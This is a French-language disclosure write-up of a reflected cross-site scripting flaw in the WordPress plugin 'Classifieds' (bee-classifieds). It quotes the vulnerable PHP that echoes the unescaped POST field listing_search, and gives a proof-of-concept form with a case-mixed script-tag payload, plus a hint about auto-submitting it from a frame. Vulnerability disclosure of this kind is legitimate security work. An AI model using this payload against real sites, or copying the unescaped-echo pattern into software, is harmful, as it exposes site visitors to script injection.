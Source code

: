 ```yaml
---
title: "Cross-Site Scripting (reflected) dans le plugin Wordpress Classifieds"
tags: [vulnérabilité]
---
```


## Présentation du plugin

Le plugin Wordpress [Classifieds](https://wordpress.org/plugins/bee-classifieds/) (slug: `bee-classifieds`) se présente de cette façon :

> A responsive classifieds listings plugin that allows to run your own classified listing site with wordpress.
>
> FEATURES
> * It works with most responsive themes
> * User can post listing from front end
> * User can edit or delete his listings
> * Upload multiple images for listings
> * unique listing image slider
> * light weight
> * listing page title for seo

La dernière version (1.1) testée date d'il y a 7 ans.

## La vulnérabilité

La faille XSS est présente dans le script `bee-listing-template.php` du plugin. En voici le début :

```php
<?php
if ( ! defined( 'ABSPATH' ) ) exit; 

function bee_view_listings() {
  $bee_search_term="";
  if (!empty($_POST)) {
    $bee_search_term=$_POST['listing_search'];
    echo "Search result for   <b>".$bee_search_term.'</b>';
  }
```

Ce script vulnérable ne peut pas être appelé directement, car il nécessite la déclaration de la constante `ABSPATH`.

Le script est toutefois chargé si on se rend sur la page des "listings" (lien `View Listings` en tête de page du Wordpress).

Là, on y trouve le formulaire suivant :

```html
 <form class="search-field" action="http://localhost:8000/?page_id=7" method="post">
  <input type="search" name="listing_search" placeholder="Search&hellip;">
  <input type="submit" value="Search">
  <input type="hidden" name="search_listing" value="beeclassifieds">
```

Comme vu précédemment la variable `$bee_search_term` contenant la valeur du champ `listing_search` est rendue telle quelle dans le navigateur ce qui permet l'injection de code HTML/JS.

PoC :

```html
<form action="http://127.0.0.1:8000/?page_id=7" method="POST">
    <input type="text" name="listing_search" value="<ScRiPt>alert(/XSS/)</sCrIpT>" />
    <input type="hidden" name="search_listing" value="beeclassifieds" />
    <input type="submit" value="go" />
</form>
```

L'injection se faisant uniquement via POST, il faudra utiliser un mécanisme javascript d'auto-submit (par exemple dans une frame) pour réaliser l'exploitation.
